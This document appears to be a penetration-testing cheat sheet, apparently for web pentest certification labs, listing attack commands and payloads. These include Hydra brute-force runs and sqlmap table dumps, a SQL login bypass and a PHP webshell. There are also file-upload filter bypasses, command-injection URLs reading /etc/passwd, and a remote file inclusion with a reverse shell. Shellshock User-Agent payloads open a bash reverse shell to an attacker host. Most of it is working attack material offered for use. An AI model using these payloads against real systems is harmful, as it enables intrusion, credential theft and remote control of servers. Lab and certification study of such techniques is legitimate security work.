


# TOOLS
## 1. Enumeration
- __```netdiscover -I eth0 -r <ip>/24```__
- __```dnsenum <domain name>```__
- __```dnsrecon -d <domain_name>```__
- __```whatweb <ip>```__
- __```httracker <url>```__
- __```wafw00f <domain_name>``` or ```wafw00f <domain_name> -a```__
- __```theHarvester -d <domain name> -b google,linkedin,yahoo,dnsdumpster,duckduckgo,crtsh,rapdiddns```__
- __```dnsenum <domain name>```__
- __```dig axfr @<nameServer> <domain name>```__
- __```fierce -dns <domain name>```__
- __```sublist3r -d <domain name>``` or ```sublist3r -d <domain name> -e google,yahoo```  Subdomain Enumeration__
- __```dirb <url>```__

 ### Cewl crawls a specified website and extracts text to create a wordlist based on the content of that site.
- __`cewl -w passwords.txt http://test.com`__
- __`cewl -d 3 -m 5 -w custom_wordlist.txt -v -a https://targetwebsite.com`__


## 2. [Nmap](nmap.md)

## Gobuster
- __```gobuster dir -k -u http://127.0.0.1/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,cnf,conf```__
- __```gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .html,.php -u http://127.0.0.1/```__
- __```gobuster dir --url <url> --wordlist /usr/share/wordlists/dirb/common.txt```__
- __`gobuster dir -u <url> -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`__
- __`gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.60.132 -t 50 -x php,txt -o  gobuster.txt`__
- __`gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://192.168.54.84 -t 100 -x .html,.txt,.php > gobuster.txt`__

## dirb
- __```dirb <url> /usr/share/wordlists/dirb/small.txt```__
- __`dirb <url> -w /usr/share/dirb/wordlists/big.txt -X .bak,.tar.gaz,.zip,.sql,.bak.zip`__
- __`dirb http://target1.ine.local -u admin:password123`__

## ffuf
- __`ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`__
- __`ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -r -fs 27200`__
- __`ffuf -u http://test.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H ‘Host: FUZZ.test.com’ -fs 0 -fs 65`__
- __`ffuf -u https://targetsite.com/api/v1/resource?param=FUZZ -w wordlist.txt -mc 200 -t 50`__
- __`ffuf -u https://example.com/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 80 -mc 200,403 -fs 0 -e .php,.html,.log,.json -o found.json`__


## Nikto
- __```nikto -h <url>```__


## Hydra 
- __```hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  127.0.0.1 ftp```__
- __```hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /root/Desktop/wordlists/100-common-passwords.txt 127.0.0.1 http-get /digest/```__
- __`hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get /`__

- `hydra -C <combinations.txt> <ip> <service>`
- ```hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ipaddress> ssh -t 50```
- ```hydra -L users.txt -P passwords.txt ssh://192.168.245.48 -t 4 > hydra.txt```
- ```hydra -l root -P /usr/share/wordlists/rockyou.txt $ip mysql```
```
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 127.0.0.1 ftp
```
```
hydra -L/usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.198.30.3 -t 4 ftp
```
### Hydra POP3 Brute Force
```
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 127.0.0.1 -s 4567 pop3
```
### Hydra RDP
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<target ip> -s <target port>
```
### Hydra SMTP Brute Force
```
hydra -P /usr/share/wordlists/rockyou.txt 127.0.0.1 smtp -V
```
### Hydra SSH Brute Force
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh
```
### Brute Forcing a Website Login
- Login page 
- http://127.0.0.0/DVWA/vulnerabilities/brute/index.php

- `hydra -l admin -P /usr/share/wordlists/rockyou.txt  127.0.0.1 http-post-form "/DVWA/vulnerabilities/brute/index.php:userField=^USER^:passwordField=^PASS^"`


## davtest
- __`davtest -url http://target1.ine.local/webdav`__
- __`davtest -auth bob:password_123321 -url http://target1.ine.local/webdav`__

## cadaver
- __`cadaver http://test.com/webdav`__
- __`put /usr/share/webshells/asp/webshell.asp`__
- > __navigate to `/webdav/webshell.asp`__

## Mysql
- __```mysql -h 10.0.1.22 -u root```__
- __```select 'This is a test' into outfile '/tmp/test' from mysql.user limit 1;```__
  - > __if executed, confirms the ability to write files on the web server.__

- __Now navigate to that path where you write the `shell.php`__
  - > __```<url>/shell.php?cmd=id```__
  - > __```<url>/shell.php?cmd=cat /etc/passwd```__
## sqlmap 

- __`sqlmap -u "<url>" --data "words_exact=" -p words_exact --method POST`__
- __OR__

- __Save the above post request in a file `request`__
- __`sqlmap -r request -p words_exact --technique=E`__
  - __`-p` ---> payload where you want to use it__
  - __`--technique=E`__
    - > __E= Error based, U= UNION base, B= BOOLEAN base__

- __`sqlmap -r request -p words_exact --technique=E --current-user`__
  - __To get the current username__
- __`sqlmap -r request -p words_exact --technique=E --current-db`__
  - __To get the database name here it is `recipes`__
  
  

- __If you know the Database name use the below command__
- __`sqlmap -r request -p words_exact --technique=E -D recipes --tables`__
  - > __It will display the table names__

- __To dump the table use the below command__
- __`sqlmap -r request -p words_exact --technique=E -D recipes -T users --dump`__


## [SQL Injection](sql.md)
## SQL Login bypass
```
" or 1 = 1-- -
```
 
## [Msfconsole](msfconsole.md)


## [HTTP Method Tampering ](http_tampering.md)
  - __```curl http://<target_ip>/uploads --upload-file shell.php```__

## Need to try in URL
- __<url>?input=test;phpinfo()__
- __<url>?input=test;system('whomai')__
- __<url>?input=test;system('cat /etc/passwd')__

## Nmap Scan for the eWPTv2
- __```sudo nmap -sS -sV --script mysql-empty-password -p 3306 120.0.0.1```__

## RFI

- __```ls -la /usr/share/webshells/php/```__
- __```cp /usr/share/webshells/php/php-reverse-shell.php```__
- > __change the ip to your ip__

- __```python -m SimpleHTTPServer 80```__
- __```nc -nvlp 1234```__


- __In target `<url>/index.php?page=http://<your_ip>/shell.php`__


## MangoDB
```
show dbs
use <databasename>
show collections ----> show tables
db.banned.find().count() ---> total number of documents
db.current.find() ---> retrieve all documents
db.current.count()
db.<dbname>.find() ---> to list out the documents

```


## Arbitrary File Upload 
#### 1
```php
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>
```
- > __save it as shell.php and upload this file in webserver__
- > __<url>/shell.php?cmd=id__

#### 2
- __You can use perdefine webshells__
  - __```ls -al /usr/share/webshells/php```__

 #### 3
- __If file upload restricts PHP file types, rename shell.php to an image extension like shell.jpg in burp suite. Simply visiting `<url>/shell.jpg` won’t execute the PHP script. To run the script, append `/shell.php` to the URL: `<url>/shell.jpg/shell.php`__
  - __```<url>/shell.jpg/shell.php?cmd=id```__
  - > __Note: This can be done in nginx by chrome__
### OR
- __you can use weevely to generate php script in the formate of .jpg__
- __```weevely generate password ~/Desktop/shell.jpg```__
- __```weevely <url_where_the_file_uploaded>/shell.jpg/shell.php password```__
- __`curl -F "Filedata=@./shell.php" <url_of_upload>`__

# WordPress
## [1] Information Gathering & Enumeration
- [x] __Check for the `meta tag` in source code__
- [x] __Check for the `/readme.html` or `txt` and `/license.txt`__
- [x] __Check for the `X-Powered-By` in Burpsuite__
- [x] __Check for the `/wp-login` or `/wp-login.php` and `/wp-admin` for the version__
- [x] __Check for the `/wp-json` or `/wp-json/wp/v2/users` if is not working `xmlrpc.php`__
- [x] __Check for the `changelog.txt` or `CHANGELOG.txt`__

## [2] wpscan
- [x] __wpscan --url <url>__
- [x] __wpcan --url https://wordpress.com/ --enumerate u__
- [x] __wpcan --url https://wordpress.com/ --enumerate -U <user_if_you_konw> -P /usr/share/wordlist/rockyou.txt__
- [x] __wpcan --url https://wordpress.com/ --enumerate p --api-token "<token>"__

  - __`curl -s -I -X GET https://wordpress.com/wp-json/wp/v2/users`__

- __For the `flow file upload` plugin__
  - > __use the above php shell script__
  - __`curl -k -X POST -F "action=upload" -F "files=@./shell.php" http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php`__
  - > __This curl command will upload the shell.php__
  - __Endpoint for the file upload__
    - __`http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/`__


- [ ] __1. WP VERSION__
  - __`curl -s -X GET https://wordpress.com/ | grep http | grep -E '\?ver=' | sed -E 's,href=src=, THIIIIS, g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2`__
- [ ] __2. Plugin Enumeration__
  - __`curl -s -X GET https://wordpress.com/ | grep -E 'wp-content/plugins/' | sed -E 's, href=| src=, THIIIIS, g' | awk -F "THIIIIS" '{print$2}' | cut -d "'" -f2`__
- [ ] __3. Theme Enumeration__
  - __`curl -s -X GET https://wordpress.com/ | grep -E 'wp-content/themes' | sed -E 's, href=|src=, THIIIIS,g' | awk -F "THIIIIS" '{print$2}' | cut -d "'" -f2`__
- [ ] __4. User Enum__
  - __`curl -s -I -X GET https://wordpress.com/?author=1`__
  - __Checking if the root user exists: If you receive a 200 OK root is there or try to change the number__
- __`<url>/wp-content/uploads`__
- __`curl -F "Filedata=@./shell.php" <url_of_upload>`__


## User-Agent
__Payload:__
- __`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`__


__Start netcat__
- __command:__ - __`nc -nvlp 1234`__
- __`use the below payload in user agent command:`__
    - __`() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<yourip>/1234 0>&1'`__


# Check list
- [x] [Open redirect](open_redirect.md)
- [x] [Cross-Site Scripting (XSS)](xss.md)
- [x] [Content-Security-Policy](csp.md)


##  `/gettime.cgi` Bash CVE-2014-6271 Vulnerability (Shellshock)
  - __`use exploit/multi/http/apache_mod_cgi_bash_env_exec`__
    - __`set TARGETURI /gettime.cig`__
  - [Shellshock](/Cgi/Shellshock.md)

Apache Tomcat 8080
  - __`search type:exploit tomcat`__
  - [tomcat](tomcat.md)

80 http HttpFileServer httpd 2.3 for windows server
  - __`search rejetoo`__

80 BadBlue httpd 2.7 (mimikatz)
  - __`search badblue 2.7`__
  - __`use exploit/windows/http/badblue_passthru`__
  - [Mimikatz](mimikatz.md)


 - ## Burp Suite <a name="burp"></a>
- use ```/manager/html``` or ```/..;/manager/html``` in the middel of ```GET/ HTTP/1.1```
  - so it will like this ```GET/ /..;/manager/html HTTP/1.1```
  - whenever you see JSESSIONID=.... use this.
 
- use ```[]==``` for the password if you don't know the pass 


